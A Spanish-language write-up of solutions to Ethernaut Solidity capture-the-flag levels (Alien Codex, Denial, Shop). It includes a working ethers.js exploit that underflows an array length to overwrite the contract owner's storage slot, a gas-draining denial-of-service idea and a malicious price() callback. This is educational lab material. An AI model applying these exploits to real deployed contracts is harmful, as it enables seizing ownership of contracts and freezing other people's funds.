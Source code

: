 # Comentarios y aprendizajes de resolver el ethernaut

## Alien Code X

Clave entender como funcionan los arrays dinámicos en solidity, es decir, los que se definen por ejemplo `bytes32[]`. En el slot de memoria correspondiente solo se va a guardar el tamaño del array en cuestión, pero la data se va a alojar en el `keccak(slot_id)`.

Imagino que luego solidity lo que hace es: si tengo que leer de la posición 15, voy a buscar el elemento en la dirección `keccak(slot_id) + 15`.

Para resolverlo hay que, de alguna manera, forzar a escribir en el slot 0 donde está el owner del contrato.

- slot_0
- .
- .
- slot_array = keccak(1) = 0xc89efdaa54c0f20c7adf612882df0950f5a951637e0307cdcb4c672f298b8bc6 = 90743482286830539503240959006302832933333810038750515972785732718729991261126

Es decir, cuando quiero escribir en el index 0 del array, en verdad estoy queriendo escribir en en slot 90743482286830539503240959006302832933333810038750515972785732718729991261126. Si escribo en MAX_SLOT_ID - 90743482286830539503240959006302832933333810038750515972785732718729991261126 escribiré en el slot 0, porque me voy a pasar por overflow.

```
    const [firstOwner, usurper] = await ethers.getSigners();

    const factory = await ethers.getContractFactory("Alien");
    const alien = await factory.deploy();
    const contractAddy = await alien.getAddress();

    await alien.makeContact();
    // Con este valor en el slot de storage 1, podre reemplazar el owner por el que yo quiero.
    const desiredStorageValueWithNewOwner = `0x000000000000000000000001${usurper.address.substring(
      2
    )}`;
    // Al hacer retract, por el underflow de uint, el contrato asume que el array codex tiene la capacidad llena.
    // Con eso, me dejara escribir con el metodo `revise` en cualquier dirección
    await alien.retract();

    // por como funciona el dynamic array storage, este hash es la dirección de memoria donde estan los datos del array de manera consecutiva.
    const secondSlotHash = ethers.keccak256(
      "0x0000000000000000000000000000000000000000000000000000000000000001"
    );
    const startArrayStorageDirection = ethers.toBigInt(secondSlotHash);
    const valorEnStorage = await ethers.provider.getStorage(
      contractAddy,
      startArrayStorageDirection
    );
    // Por definicion de solidity, todo contrato tiene 2^256 slots de memoria
    const MAX_CONTRACT_SLOT_ID = ethers.toBigInt(2) ** ethers.toBigInt(256);
    // MAX_CONTRACT_SLOT_ID - startArrayStorageDirection es la distancia que hay desde
    // el slot de memoria donde arrancan los valores del array, hasta que me paso por overflow
    // al primer slot de memoria (donde justo esta el valor del addres!!)
    await alien.revise(
      MAX_CONTRACT_SLOT_ID - startArrayStorageDirection,
      desiredStorageValueWithNewOwner
    );
    expect(await alien.owner()).to.equal(usurper.address);
```

## Denial

El contrato tiene un owner definido. Recibe fondos en ese contrato, y cualquiera pueda ejecutar la funciona withdraw que lo que hace es enviar un 1% de los fondos al owner, y otro 1% al que ejecuta la transacción.

Acá la papa está en que no se chequea el resultado del call al partner (adrede) para que eso no bloquee que le lleguen los fondos al owner.

```
function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }
```

Entonces si el partner es un contrato, y adentro hace cualquier fruta, eso queda en un loop donde nunca el owner puede extraer los fondos. Queda bloqueado. Para sortear eso, donde queremos que "no nos importe revertir" la mejor práctica sería ponerle un gaslimit al call a un contrato externo. Esto haría que revierta el call, pero como no nos importa el resultado, el owner seguiría recibiendo sus fondos.

### Buyer

Acá se define una interfaz que debe ser implementada por el msg.sender. El tema es que quien la implementa puede definir el comportamiento que sea, entonces muy probablemente con implementar la interfaz y hacer que el método view "price" devuelva un precio mayor al del contrato `Shop` sea suficiente.

Ok no, en específico dice que el precio debe ser menor.

Lo clave está en que al ser una función view (y no pure) la misma puede acceder al estado de otros contratos, entonces, se puede hacer algo de este estilo:

```
function price() external view returns (uint) {
        if (shop.isSold()) {
            return 50;
        }
        return 150;
    }
```
